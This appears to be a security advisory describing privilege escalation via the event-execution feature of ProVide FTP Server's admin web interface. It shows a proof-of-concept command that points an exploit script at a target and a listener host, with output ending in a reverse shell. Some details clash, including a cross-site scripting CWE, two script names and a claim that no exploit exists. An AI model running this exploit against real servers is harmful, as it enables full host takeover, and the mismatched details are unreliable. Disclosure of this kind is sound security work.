 # Web Admin Interface - Privilege Escalation via EXECUTE()

## Summary

The application allows the FTP server admin to execute programs upon certain events are triggered. This behaviour could be exploited by an attacker, to achieve Vertical Privilege Escalation, leading to full takeover of the underlying hosting server (From Web Application Admin to Windows NT\System user).

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as critical. Affected by this vulnerability is an unknown part of the file /ajax/SetUserInfo. The manipulation of the parameter **messages** with an unknown input value leads to a privilege escalation vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect confidentiality, integrity and availability. An attacker might be able to execute arbitrary code on the underlying hosting server, leading to full server takeover.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-XXXX. The attack can be launched remotely. A single authentication is needed for exploitation. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

The `privesc.py` script has been provided to reproduce the issue.

```shell
root@kali:~# python3 privesc_exec.py -t 192.168.226.140 -u Admin -p Passw0rd! -H 192.168.226.129 -P 4444 
[+] Logging in
[+] Creating Rogue User
[+] Enabling FTP
[+] Setting up listener
[+] Triggering reverse shell
[+] Check your shell
```

A video is available as well, to easily understand what the impact could be.

## Remediation

Currently, no official fix is available for this issue.

## References

* [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
* [https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/](https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/)
* [https://cwe.mitre.org/data/definitions/269.html](https://cwe.mitre.org/data/definitions/269.html)